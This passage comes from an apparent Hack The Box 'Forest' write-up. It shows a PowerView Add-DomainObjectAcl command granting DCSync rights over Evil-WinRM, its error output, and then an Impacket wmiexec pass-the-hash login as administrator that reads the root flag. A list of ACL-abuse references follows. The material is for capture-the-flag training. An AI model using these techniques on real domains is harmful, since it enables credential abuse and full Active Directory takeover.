 *Evil-WinRM* PS C:\Users\p3\Documents> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity p3 -Rights DCSync
  Exception calling "GetNames" with "1" argument(s): "Value cannot be null.
  Parameter name: enumType"
  At line:6564 char:9
  +         $UACValueNames = [Enum]::GetNames($UACEnum)
  +         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
      + FullyQualifiedErrorId : ArgumentNullException
  Cannot validate argument on parameter 'ValidateSet'. The argument is null or empty. Provide an argument that is not null or empty, and then try the command again.


6. Again, use Impacket but this time pass-the-hash to get Administrator account and root flag
    root@p3:/opt/impacket/examples# python wmiexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 administrator@forest.htb.local
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [*] SMBv3.0 dialect used
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    htb\administrator

    C:\>type C:\Users\Administrator\Desktop\root.txt
    f048****************************




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


SIMILAR HTB BOX: Reel

- BloodHound 1.3 – The ACL Attack Path Update
   https://wald0.com/?p=112
     WriteDACL: The ability to write a new ACE to the target object’s DACL. For example, an attacker may write a new ACE to the target
     object DACL giving the attacker “full control” of the target object. Abused with Add-NewADObjectAccessControlEntry.

- An ACE Up the Sleeve
   https://www.blackhat.com/docs/us-17/wednesday/us-17-Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors.pdf
    WriteDacl grants the ability to modify the DACL in the object security descriptor. Abusable with PowerView: Add-DomainObjectAcl

- BloodHound with Kali Linux: 101
    https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux

- Attacking Active Directory Permissions with BloodHound
    https://blog.stealthbits.com/attacking-active-directory-permissions-with-bloodhound/

- ACLPWN
    https://github.com/fox-it/aclpwn.py
